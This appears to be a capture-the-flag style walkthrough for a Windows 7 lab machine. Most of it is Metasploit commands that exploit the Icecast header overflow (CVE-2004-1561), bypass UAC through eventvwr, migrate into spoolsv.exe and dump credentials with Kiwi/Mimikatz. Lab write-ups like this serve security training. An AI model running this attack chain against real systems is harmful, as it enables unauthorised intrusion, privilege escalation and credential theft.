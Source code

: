 # Icecast Exploitation and Privilege Escalation Walkthrough

## 1. Nmap Scan

```bash
nmap -sV -sC -p- <Machine_IP>
```

### Ports Discovered:

* 135/tcp   - Microsoft Windows RPC
* 139/tcp   - NetBIOS-SSN
* 445/tcp   - Microsoft-DS (SMB)
* 3389/tcp  - RDP
* 5357/tcp  - Microsoft HTTPAPI httpd 2.0
* 8000/tcp  - Icecast streaming media server
* 49152–49160/tcp - Various Microsoft Windows RPC

### Host Info:

* OS: Windows 7 Professional SP1
* Computer name: DARK-PC

---

## 2. Exploitation Using Metasploit

### CVE-2004-1561 - Icecast Header Overflow

```bash
msfconsole
search icecast
use exploit/windows/http/icecast_header
show options
set RHOSTS <target_ip>
run
```

✅ You should get a meterpreter session.

---

## 3. Privilege Escalation

### Basic Enumeration:

```bash
getuid
sysinfo
run post/multi/recon/local_exploit_suggester
```

### Use the Suggested Exploit:

```bash
ctrl+z   # background meterpreter session
use exploit/windows/local/bypassuac_eventvwr
show options
set SESSION 1
set LHOST <your_ip>
set LPORT 4444
run
```

✅ You now have SYSTEM privileges.

```bash
getsystem
getuid
# Should return: NT AUTHORITY\SYSTEM
```

---

## 4. Migrate to Another Process

```bash
ps
migrate -N spoolsv.exe
getuid
```

---

## 5. Loot Credentials using Kiwi (Mimikatz)

```bash
load kiwi
creds_all
```

✅ You should see credentials such as:

```
User: Dark
Password: Password01!
```

---

## 🔒 Legal Disclaimer

This guide is **strictly for educational purposes**. Do not use it on systems you do not own or have permission to test.

---

## ✅ Summary

* Scanned open ports with Nmap
* Exploited Icecast via CVE-2004-1561
* Gained Meterpreter session
* Used UAC bypass via `eventvwr`
* Migrated to a stable process
* Dumped credentials using `kiwi`

You now have full SYSTEM-level access with credentials harvested.
